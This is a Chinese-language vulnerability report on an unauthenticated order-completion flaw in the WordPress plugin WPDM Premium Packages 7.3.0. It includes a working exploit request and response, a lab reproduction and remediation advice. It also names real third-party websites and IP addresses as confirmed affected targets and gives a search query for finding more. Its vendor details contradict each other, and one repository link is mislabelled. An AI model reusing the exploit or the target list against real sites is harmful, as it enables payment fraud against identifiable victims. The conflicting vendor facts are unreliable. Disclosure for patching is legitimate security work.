

# WPDM Premium Packages 匿名激活订阅篡改他人订单状态

[English](README.md)

- 漏洞发现时间：2026-10-21
- 漏洞技术类型：未授权访问 / 越权数据修改

## 漏洞描述

WPDM Premium Packages（wpdm-premium-packages）是 WordPress 下载管理插件 Download Manager 的商业扩展，为付费下载场景提供订单、订阅、许可证与 PayPal 收款能力，全球独立部署实例广泛（测绘命中逾两千条记录）。插件以 WordPress REST API 暴露 `/wpdmpp/v1/` 命名空间下的前端接口，用于结账与订阅激活。

漏洞位于 `src/Api/Endpoints/CheckoutEndpoint.php:147-148` 注册的 `POST /wp-json/wpdmpp/v1/checkout/paypal/activate-subscription`。该路由的 `permission_callback` 为 `__return_true`，即完全匿名；而回调内对订单只做存在性检查（`:958-964` 仅 `getOrder($order_id)` 与 `if (!$order) return 'Order not found.'`），没有任何订单归属校验——既不比对当前用户 `uid`，也不要求会话或令牌。通过校验后代码无条件执行 `updateOrder(['trans_id' => $subscription_id], $order_id)`（`:982`）与 `completeOrder($order_id, true, 'PayPal')`（`:985`）。因此攻击者只要提供一个订单号，即可把任意他人的未付款订单标记为已支付完成。

## 漏洞危害

匿名攻击者无需任何账号、Cookie 或令牌，仅凭一个订单号即可将他人的待付款订单改为已完成并写入伪造的支付流水号，从而免费取得该订单对应的付费内容；同时该订单状态被污染后，真实买家的支付、退款与对账流程均会失准。

危害闭环：未授权数据修改 | 收益：`order_status` 由 `Pending` 变为 `Completed`、`payment_status` 由 `Pending` 变为 `Completed`、`trans_id` 由空值变为 `I-NCCLAB-STUB-0001` | 证据：本地复现案例“危害达成观测”的 SQL 前后对比 | 对照：同接口传不存在的订单号返回 `Order not found.`、缺参返回 `rest_missing_callback_param`、伪路由返回 `rest_no_route`，三态可区分。

## 厂商与受影响版本

- 漏洞厂商全称：Vedidero（WPDM / WPDM Premium Packages）
- 产品厂商归属国家及地区：德国
- Vendor's stated country/region: Inida
- Vendor repository: [https://github.com/wp-premium-packages/wpdm-premium-packages](https://wordpress.org/plugins/wpdm-premium-packages/)
- 版本依据（源码常量行）：`wpdm-premium-packages.php:6` → `* Version: 7.3.0`
- 版本依据（发布元数据）：`readme.txt:7` → `Stable tag: 7.3.0`
- 最新版本证明（默认分支最新提交）：仓库 `wpdm-premium-packages.php` 第 6 行仍为 `Version: 7.3.0`
- 最新发布标签：`readme.txt` 的 `Stable tag: 7.3.0`

## 互联网资产证明

### 精准测绘语法

```text
body="/wp-content/plugins/wpdm-premium-packages/"
```

### 测绘平台截图



*图 1-1 测绘平台截图*

## 漏洞技术细节

### 完整 PoC 描述

`POST /wp-json/wpdmpp/v1/checkout/paypal/activate-subscription` 由 `CheckoutEndpoint` 注册，`permission_callback => __return_true`（`:148`）使接口对匿名开放。回调仅以 `subscription_id` 与 `order_id` 两个字符串参数定位订单，`getOrder()` 命中后即进入 `verifySubscription()`，通过后无条件调用 `updateOrder()` 写入 `trans_id`、调用 `completeOrder()` 完成订单。整个链路中不存在“该订单是否属于请求者”的判断。

完整请求报文：

```http
POST /?rest_route=/wpdmpp/v1/checkout/paypal/activate-subscription HTTP/1.1
Host: 127.0.0.1:8911
Content-Type: application/json
User-Agent: NCC-lab

{"subscription_id":"I-NCCLAB-STUB-0001","order_id":"NCCLAB-PENDING-002"}
```

响应报文：

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8

{"success":true,"data":{"order_id":"NCCLAB-PENDING-002","subscription_id":"I-NCCLAB-STUB-0001","redirect_url":""},"message":"Subscription activated successfully!"}
```

响应中 `success:true` 与 `Subscription activated successfully!` 表明匿名请求已驱动 `completeOrder()` 执行完毕；对应的数据库状态跃迁见“本地复现案例 → 危害达成观测”。

### 触发条件

无需登录权限。仅需目标站点安装并启用 Download Manager 与 WPDM Premium Packages，且存在至少一个订单——攻击者可自行枚举订单号，因为接口不校验归属。

## 复现证明

### 本地复现案例

#### 基础环境搭建

本地 WordPress 靶场（PHP 8.3.33），安装 Download Manager 与 WPDM Premium Packages 7.3.0，MariaDB 独立实例 `127.0.0.1:3308`，站点以 `php -S 127.0.0.1:8911 -t .` 提供服务。以 SQL 植入一条属于他人的待付款订单。

#### 漏洞触发操作

以完全匿名会话（无 Cookie、无令牌、无任何归属凭据）向该接口提交上述请求，服务端返回 `Subscription activated successfully!`。

#### 危害达成观测

```http
POST /?rest_route=/wpdmpp/v1/checkout/paypal/activate-subscription HTTP/1.1
Host: 127.0.0.1:8911
Content-Type: application/json

{"subscription_id":"I-NCCLAB-STUB-0001","order_id":"NCCLAB-PENDING-002"}
```

```http
HTTP/1.1 200 OK
{"success":true,"data":{"order_id":"NCCLAB-PENDING-002","subscription_id":"I-NCCLAB-STUB-0001","redirect_url":""},"message":"Subscription activated successfully!"}
```

同一订单在请求前后的数据库记录：

```sql
SELECT order_id, order_status, payment_status, trans_id
FROM wp_ahm_orders
WHERE order_id = 'NCCLAB-PENDING-002';
```

| 状态 | order_id | order_status | payment_status | trans_id |
| --- | --- | --- | --- | --- |
| 请求前 | `NCCLAB-PENDING-002` | `Pending` | `Pending` | （空） |
| 请求后 | `NCCLAB-PENDING-002` | `Completed` | `Completed` | `I-NCCLAB-STUB-0001` |

三个字段同时发生净变更，且订单归属者为另一用户（`uid=2`），请求方无任何凭据。

### 具体案例证明（3 个）

以下案例均为接口存在且匿名可达，真路由 400 / 伪路由 404 可区分。

#### 1. https://mulib.mak.ac.ug

```http
POST /wp-json/wpdmpp/v1/checkout/paypal/activate-subscription HTTP/1.1
Host: mulib.mak.ac.ug
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; NCC-verify)

{}
```

```http
HTTP 400 {"code":"rest_missing_callback_param","message":"Missing parameter(s): subscription_id, order_id","data":{"status":400}}
```

#### 2. https://www.we-link.com.tw

```http
POST /wp-json/wpdmpp/v1/checkout/paypal/activate-subscription HTTP/1.1
Host: www.we-link.com.tw
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; NCC-verify)

{}
```

```http
HTTP 400 {"code":"rest_missing_callback_param","message":"Missing parameter(s): subscription_id, order_id","data":{"status":400}}
```

#### 3. https://hsebox.smatos.pt

```http
POST /wp-json/wpdmpp/v1/checkout/paypal/activate-subscription HTTP/1.1
Host: hsebox.smatos.pt
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; NCC-verify)

{}
```

```http
HTTP 400 {"code":"rest_missing_callback_param","message":"Missing parameter(s): subscription_id, order_id","data":{"status":400}}
```

### 其他受影响目标

1. https://102.23.132.24
2. https://102.23.132.44
3. https://103.205.82.61
4. https://103.205.82.62
5. https://hsebox.smatos.pt

## 修复方案

### 临时解决方案

在反向代理或 WAF 层对 `/wp-json/wpdmpp/v1/checkout/paypal/activate-subscription` 增加鉴权要求，或临时关闭 PayPal 订阅激活接口；对订单完成状态增加服务端支付回调校验。

### 正式解决方案

1. 在 `CheckoutEndpoint::activateSubscription()` 中补齐归属校验：订单必须属于当前已认证用户，或携带与订单绑定的签名令牌。
2. `permission_callback` 不应为 `__return_true`，应改为校验当前用户或订单令牌。
3. `completeOrder()` 不得由客户端可控参数直接触发，应以支付网关回调（含签名校验）为唯一入口。
4. 对 `order_id` 增加不可枚举性（随机化订单号）并限制枚举频率。
